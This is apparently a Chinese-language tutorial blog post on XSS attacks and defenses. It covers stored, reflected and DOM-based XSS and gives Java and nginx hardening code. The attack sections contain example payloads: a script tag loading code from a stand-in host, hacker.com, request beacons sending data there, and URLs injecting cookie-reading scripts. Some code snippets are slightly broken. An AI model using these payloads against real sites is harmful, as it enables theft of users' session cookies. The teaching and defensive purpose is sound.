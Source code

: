 ```yaml
---
title: "08 XSS攻防"
date: 2024-01-01T10:37:34+08:00
categories: ["Web安全和加速"]
tags: ["网络安全","技巧"]
draft: false
code:
  copy: true
toc:
  enable: true
---
```


> `XSS（Cross Site Script）`为跨站脚本攻击，取首字母简写为避免和`CSS`冲突而命名。**攻击者通常会向页面嵌入恶意脚本代码，当用于访问时会出发该脚本执行形成攻击。**
>
> **`XSS`的本质就是数据和脚本没有分离，界限混淆，缺少区分处理，使得浏览器渲染数据的同时将脚本一并执行了。**
>
> `XSS`一般可以分为三类：
>
> - 存储型XSS
> - 反射型XSS
> - DOM型XSS

## 一、存储型XSS

> 存储型XSS，是指攻击者利用网页的输入功能，将恶意脚本持久化在服务端，当任意用户访问页面导致该数据被渲染时，恶意脚本便会被浏览器执行，从而形成攻击获取用户本地信息。

攻击者可以利用`<script>`标签做攻击脚本，填写在某个页面的用户数据收集处，比如填写下方内容，其中 xxx.js 就包含了恶意代码。

```html
<script src="http://hacker.com/script/xxx.js"/>
```

```javascript
const xhr = new XMLHttpRequest();
xhr.open('GET', 'http://hacker.com/collectionInfo', true);
xhr.send();
```

上述植入逻辑中的异步请求，在浏览器的同源策略保护下，**可能会出现跨域问题**。此时可以考虑使用一些`DOM`元素的特性来**绕过同源策略**，比如 Image 元素。

```html
<script src="http://hacker.com/script/xxx2.js"/>
```

```javascript
(function() {
   (new Image()).src= 'http://hacker.com/collectionInfo';
});
```

## 二、反射型XSS

> 反射型XSS，是指攻击者不会将恶意脚本持久化在服务端，而是构造一些恶意连接诱导正常用户访问，这类`XSS`的特性是需要和正常用户产生交互。与DOM型XSS的区别是攻击的链接实际上是一些服务端请求链接。

比如对于一个请求链接：`http://www.normal.com/get?uid=`，正常使用的时候，实际上 uid 参数会带上用户的身份标识。攻击者利用这个链接，往往会构造出恶意执行脚本拼接在参数后方，比如：`http://www.normal.com/get?uid=<script>alert(document.cookie)</script>`，只要诱导用户点击来这个链接，则可以窃取用户的登录 cookie 信息。

## 三、DOM型XSS

> DOM型XSS，是一种特殊的反射型XSS，这种类型的`XSS`是利用了`DOM`标签的一些特性，并且不需要和服务端通信。

比如对于一个页面访问请求：`http://www.normal.com/user.html?uid=`，正常使用的时候，实际上 uid 参数会带上用户的身份标识。

攻击者可以利用这个链接，构造一个虚假的DOM元素出来，比如：`http://www.normal.com/user.html?uid=<input type="button" value="登录" onClick="alter(document.cookie)"/>`，也可以不需要和用户交互的：`http://www.normal.com/user.html?uid=<img src='notFound.jpg' onerror="alter(document.cookie)"/>`

## 四、防护策略

> `XSS`攻击的防护策略主要就是针对其本质做对应的加固，也即，将数据和脚本做区分，对于疑似脚本的数据做转义处理

1. 在网关或者过滤器等请求流量入口处，做参数合法性校验（长度或特殊字符），以及针对特殊字符的转义处理。

   ```java
   // 方式一：自定义处理方式，将特殊字符映射为全角字符（输入）
   public static String xssEncoding(String param) {
       if (param == null || param.isEmpty()) {
           return param;
       }
       StringBuilder sb = new StringBuilder(param.length() + 16);
       for(int i=0; i < param.length(); i++) {
           char c = param.charAt(i);
           switch (c) {
               case '>':
                   sb.append('>'); // 全角大于号
                   break;
               // etc.
           }
       }
       return sb.toString();
   }
   ```

   ```java
   // 方式二：借助第三方库做特殊字符转义（输入）
   /**
    * <groupId>org.owasp.antisamy</groupId>
    * <artifactId>antisamy</artifactId>
    */
   public class XssEncoder {
       private static Policy policy = null;
       
       static {
           String path = XssEncoder.class.getClassLoader().getResource("antisamy-anythinggoes.xml").getFile();
           if (path.startsWith("file")) {
               path = path.substring(6);
           }
           try {
               policy = Policy.getInstance(path);
           } catch (Exception e) {
               throw new RuntimeException(e);
           }
       }
       
       public static String xssEncode(String param) {
           AntiSamy antiSamy = new AntiSamy();
           try {
               Clean Results cr = antiSamy.scan(param, policy);
               // 输出安全的 HTML
               return cr.getCleanHTML();
           } catch (Exception e) {
               throw new RuntimeException(e);
           }
       }
   }
   ```

   ```java
   // 方式三：借助第三方库做特殊字符转义（输入）
   /**
    * <groupId>org.apache.commons</groupId>
    * <artifactId>commons-text</artifactId>
    */
   public class XssEncoder {
       public static String xssEncode(String param) {
           // return StringEscapeUtils.escapeJson(param);
           // return StringEscapeUtils.escapeEcmaScript(param);
           return StringEscapeUtils.escapeHtml4(param);
       }
   }
   ```

   ```java
   // 方式四：借助第三方库做特殊字符转义（输出）
   /**
    * <groupId>org.owasp.esapi</groupId>
    * <artifactId>esapi</artifactId>
    */
   ```

2. 为响应的`Cookie`设置只读属性（如果是`SpringBoot`项目，属性`server.servlet.session.cookie.http-only`默认就是`true`开启的），或者为响应资源禁用`iframe`策略

   ```java
   // 设置 cookie 只读属性的方式
   response.setHeader("SET-COOKIE", "JSESSIONID=" + request.getSession().getId() + "; HttpOnly");
   // 设置响应对于 iframe 的策略（SAMEORIGIN表示同域名下可以挂iframe；DENY表示不允许；ALLOW-FROM uri表示指定uri的地址可以挂）
   response.setHeader("x-frame-options", "SAMEORIGIN");
   ```

   ```nginx
   // 设置响应对于 iframe 的策略
   add_header X-Frame-Options SAMEORIGIN;
   ```

   
